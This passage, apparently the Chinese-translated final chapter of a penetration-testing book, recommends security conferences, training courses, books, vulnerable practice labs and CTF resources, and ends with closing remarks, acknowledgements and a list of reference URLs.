*   **Shmoocon** ([`www.shmoocon.org/`](http://www.shmoocon.org/)) - 东海岸最大的会议之一，费用低于 $200。我最喜欢的会议之一。
*   **OWASP AppSec** ([`www.owasp.org/index.php/Category:OWASP_AppSec_Conference`](http://www.owasp.org/index.php/Category:OWASP_AppSec_Conference)) - 价格低廉且有趣，专注于 Web 应用安全。如果你是 OWASP 会员，费用低于 $100。
*   **Lethal** ([`www.meetup.com/LETHAL/`](http://www.meetup.com/LETHAL/)) - 当然要推荐一下我的小组。虽然不是会议，但我们有每月聚会并邀请演讲者。不仅免费，而且小组规模小，方便你参与并结识志同道合的人。


#### 培训课程

如果你想在某个安全领域快速入门，培训课程最有帮助。鉴于课程众多，以下是一些推荐：

*   **BlackHat** - 费用极高，但不仅课程种类多，而且由业内顶尖专家授课。
*   **DerbyCon** - 肯塔基州举办，价格合理，在会议期间进行。
*   **SANS** ([`www.sans.org`](http://www.sans.org)) - 费用极高，但它们是行业标准。
*   **Offensive Security** ([`www.offensive-security.com/`](http://www.offensive-security.com/)) - 价格合理，我强烈推荐参加 Offensive Security 的在线课程。你将获得大量实战经验，但需要投入大量时间。


#### 书籍推荐

还有许多好书值得一读。我无法列出所有，但以下这些令我印象深刻——顺序不分先后。你可能会问，为什么要关注恶意软件分析这类书籍？简单的答案是：不同安全领域（取证、恶意软件分析、应急响应、渗透测试）相互交织。要成为优秀的渗透测试员，你必须了解它们。你得知道如何清除痕迹、什么可能阻止你攻破目标、以及防御者是如何思考的。

##### 技术类阅读

*   《Web Application Hacker’s Handbook 2》
*   《Metasploit The Penetration Tester’s Guide》
*   《Gray Hat Hacking》
*   《SQL Injection: Attack and Defense》
*   《Hacking: The Art of Exploitation》
*   《Hacking Exposed》（全系列）
*   《Malware Analyst Cookbook》
*   《Shellcoder’s Handbook 2nd Edition》
*   《A Bug Hunter’s Diary》

##### 趣味安全相关阅读

*   《Enders game》
*   《Cryptonomicon》
*   《Snow Crash》
*   《The Cuckoo’s Egg》
*   《How to Steal a Network》（全系列）
*   《Dissecting the hack: the f0rb1dd3n network》
*   《Silence on the wire》
*   《Underground》
*   《Daniel Suarez’s Daemon》
*   《Kingpin》


#### 靶场框架实战

想自学变强？虽然我没试过所有这些框架，但你可以下载、部署它们，然后告诉我体验如何。这是极佳的练习！

*   Offensive Security Metasploitable
*   OWASP WebGoat/Vicnum/InsecureWebApp
*   Maven Security WebMaven/Buggy Bank
*   Google Gruyere (antigo Codelab / Jalsberg)
*   NTNU Hacme Game
*   SPI Dynamics SPI Dynamics
*   DVWA Damn Vulnerable Web Application
*   Iron Geek Mutillidae
*   The Butterfly Security The Butterfly Security Project
*   McAfee Hacme Casino/HacmeBank/Travel/Shipping
*   Bonsai Sec Moth
*   Stanford SecuriBench
*   Enigma Group EnigmaGroup
*   X5S XSS Encoding Skills
*   The Bodgeit Store
*   MadIrish LampSecurity
*   WackoPicko
*   DVL Damn Vulnerable Linux
*   Pynstrom Holynix


#### 夺旗赛（CTF）挑战

如果你打算以此为职业，甚至只是出于兴趣，你真的需要参与不同的 CTF 挑战。试着找几个朋友，或者找到你当地的安全小组一起尝试这些挑战。这不仅能测试你的技能和对攻击的理解，还能让你更好地与业内人士建立联系。花 3 天 3 夜攻克挑战，大概是你能体验到的最有成就感的事情之一。

访问 [`ctftime.org/`](http://ctftime.org/) 查找下一场 CTF 的时间地点。如果你在洛杉矶地区，欢迎访问 [www.meetup.com/lethal](http://www.meetup.com/lethal) 加入我们的战队！


#### 安全资讯跟进

安全领域变化迅速，跟上这个不断演变的世界至关重要。以下是我每天早上都会查看的 RSS 订阅/网站列表，以及我每天接收的邮件列表。

##### RSS Feed / 网站列表

*   [`securepla.net/rss.php`](http://securepla.net/rss.php) - 这是我多年整理的个人 RSS 订阅源，强烈推荐查看。
*   [`code.google.com/p/pentest-bookmarks/wiki/BookmarksList`](https://code.google.com/p/pentest-bookmarks/wiki/BookmarksList)

##### 邮件列表

*   [`www.schneier.com/crypto-gram.html`](https://www.schneier.com/crypto-gram.html)
*   [`www.team-cymru.org/News/`](http://www.team-cymru.org/News/)
*   [`www.infragard.org/`](https://www.infragard.org/)
*   [`www.thecyberwire.com/`](http://www.thecyberwire.com/)

##### Twitter Lists


## 致谢与参考资源

### 推荐关注

*   [`twitter.com/danothebeach/lists/infosec`](http://twitter.com/danothebeach/lists/infosec)
*   [`www.marblesecurity.com/2013/11/20/100-security-experts-follow-twitter/`](http://www.marblesecurity.com/2013/11/20/100-security-experts-follow-twitter/)


### 结语

如果你读到了这里，那就意味着你已经完全掌控了网络，破解了所有密码，并全身而退。现在是时候将你所学的一切加以运用并在此基础上继续构建了。我给你最大的建议是参与当地的安全小组或参加安全会议。你也可以开设一个博客，开始摆弄这些不同的工具。找出什么有效、什么无效，以及如何让攻击更高效、在网络中更隐蔽。这需要占用你正常朝九晚五工作之外的时间，但绝对值得。

希望你觉得《黑客攻防实战演练》内容丰富，并且学到了几个新工具或技术。安全领域瞬息万变，紧跟趋势并发挥你自己的创造力至关重要。我不能说会有那么一天你能自称精通了安全，但一旦你牢牢掌握了基础，从宏观层面来看，攻击手法其实并没有太大变化。

如果你觉得这本书有帮助，请在书籍官网给我留言，这将帮助我尝试开发更好的内容，并尝试了解你在寻找什么。如果我在这本书中遗漏了某人，或在某个话题上表述有误，我深表歉意，并将在本书官网更新相关信息。

### 联系方式

**Twitter**: `@HackerPlaybook`

**URL**: [TheHackerPlaybook.com](http://TheHackerPlaybook.com)


### 致谢名单

有太多的人/团体我想要感谢，如果遗漏了你，请见谅。你们中的一些人可能不认识我，但你们的研究、工具和理论激励我成为一名更优秀的渗透测试员，并帮助我完成了这本书。排名不分先后：


### 参考文献

1 [`mashable.com/2013/12/09/anonymous-attack-fine/`](http://mashable.com/2013/12/09/anonymous-attack-fine/)

2 [`krebsonsecurity.com/2013/10/adobe-breach-impacted-at-least-38-million-users/`](http://krebsonsecurity.com/2013/10/adobe-breach-impacted-at-least-38-million-users/)

3 [`community.rapid7.com/community/infosec/sonar/blog/2013/10/30/project-sonar-one-month-later`](http://community.rapid7.com/community/infosec/sonar/blog/2013/10/30/project-sonar-one-month-later)

4 [`pauldotcom.com/wiki/index.php/Episode291`](http://pauldotcom.com/wiki/index.php/Episode291)

5 [`www.offensive-security.com/metasploit-unleashed/Building_A_Module`](http://www.offensive-security.com/metasploit-unleashed/Building_A_Module)

6 [`www.exploit-db.com/exploits/27277/`](http://www.exploit-db.com/exploits/27277/)

7 [`msdn.microsoft.com/en-us/library/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be.aspx`](http://msdn.microsoft.com/en-us/library/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be.aspx)

8 [`pastebin.com/TE3fvhEh`](http://pastebin.com/TE3fvhEh)

9 [`www.trustedsec.com/files/BSIDESLV_Secret_Pentesting_Techniques.pdf`](http://www.trustedsec.com/files/BSIDESLV_Secret_Pentesting_Techniques.pdf)

10 http://esec-pentest.sogeti.com/exploiting-windows-2008-group-policy-preferences

11 [`www.ampliasecurity.com/research/wcefaq.html`](http://www.ampliasecurity.com/research/wcefaq.html)

12 http://www.room362.com/blog/2011/9/6/post-exploitation-command-lists.html

13 [`www.irongeek.com/i.php?page=videos/derbycon3/s106-owning-computers-without-shell-access-royce-davis`](http://www.irongeek.com/i.php?page=videos/derbycon3/s106-owning-computers-without-shell-access-royce-davis)

14 [`www.defcon.org/images/defcon-21/dc-21-presentations/Milam/DEFCON-21-Milam-Getting-The-Goods-With-smbexec-Updated.pdf`](http://www.defcon.org/images/defcon-21/dc-21-presentations/Milam/DEFCON-21-Milam-Getting-The-Goods-With-smbexec-Updated.pdf)

15 [`github.com/brav0hax/smbexec`](http://github.com/brav0hax/smbexec)

16 [`raw.github.com/obscuresec/random/master/StartListener.py`](http://raw.github.com/obscuresec/random/master/StartListener.py)

17 [`www.pentestgeek.com/2013/09/18/invoke-shellcode/`](http://www.pentestgeek.com/2013/09/18/invoke-shellcode/)

18 [`www.irongeek.com/i.php?page=videos/derbycon3/1209-living-off-the-land-a-minimalist-s-guide-to-windows-post-exploitation-christopher-campbell-matthew-graeber`](http://www.irongeek.com/i.php?page=videos/derbycon3/1209-living-off-the-land-a-minimalist-s-guide-to-windows-post-exploitation-christopher-campbell-matthew-graeber)

19 [`www.labofapenetrationtester.com/2012/08/introducing-nishang-pow-ereshell-for.html`](http://www.labofapenetrationtester.com/2012/08/introducing-nishang-pow-ereshell-for.html)

20 [`www.jessecole.org/2011/12/03/ssh-password-logging/`](http://www.jessecole.org/2011/12/03/ssh-password-logging/)

21 [`www.securepla.net/doppelganging-your-ssh-server/`](http://www.securepla.net/doppelganging-your-ssh-server/)

22 [`github.com/obscuresec/shmoocon/blob/master/PowerShellOfficeMacro`](http://github.com/obscuresec/shmoocon/blob/master/PowerShellOfficeMacro)

23 [`bbs.archlinux.org/viewtopic.php?id=51548`](http://bbs.archlinux.org/viewtopic.php?id=51548)

24 [`hashcat.net/wiki/doku.php?id=cracking_wpawpa2`](http://hashcat.net/wiki/doku.php?id=cracking_wpawpa2)

25 [`hashcat.net/wiki/doku.php?id=cracking_wpawpa2`](http://hashcat.net/wiki/doku.php?id=cracking_wpawpa2)

26 [`en.wikipedia.org/wiki/Wi-Fi_Protected_Setup`](http://en.wikipedia.org/wiki/Wi-Fi_Protected_Setup)

27 [`www.kb.cert.org/vuls/id/723755`](http://www.kb.cert.org/vuls/id/723755)

28 [`www.willhackforsushi.com/?page_id=37`](http://www.willhackforsushi.com/?page_id=37)

29 [`www.youtube.com/watch?v=8BiOPBsXh0g#t=163`](http://www.youtube.com/watch?v=8BiOPBsXh0g#t=163)

30 [`blog.thireus.com/cracking-story-how-i-cracked-over-122-million-sha1-and-md5-hashed-passwords`](http://blog.thireus.com/cracking-story-how-i-cracked-over-122-million-sha1-and-md5-hashed-passwords)

31 [`contest-2010.korelogic.com/rules.html`](http://contest-2010.korelogic.com/rules.html)

32 [`www.trustedsec.com/december-2010/bypass-windows-uac/`](http://www.trustedsec.com/december-2010/bypass-windows-uac/)

33 [`wiki.tekkies.co.uk/General_Technical#FTP_using_xp_cmdshell_-_sql2k`](http://wiki.tekkies.co.uk/General_Technical#FTP_using_xp_cmdshell_-_sql2k)

34 [`www.rootkitanalytics.com/userland/Exploring-Alternate-Data-Streams.php`](http://www.rootkitanalytics.com/userland/Exploring-Alternate-Data-Streams.php)

35 [`www.youtube.com/watch?v=U34PpkZ5cQ8`](http://www.youtube.com/watch?v=U34PpkZ5cQ8)

36 [`www.irongeek.com/i.php?page=videos/derbycon3/4206-windows-0wn3d-by-default-mark-baggett`](http://www.irongeek.com/i.php?page=videos/derbycon3/4206-windows-0wn3d-by-default-mark-baggett)


37 [`www.offensive-security.com/offsec/penetration-test-report-2013/`](http://www.offensive-security.com/offsec/penetration-test-report-2013/)

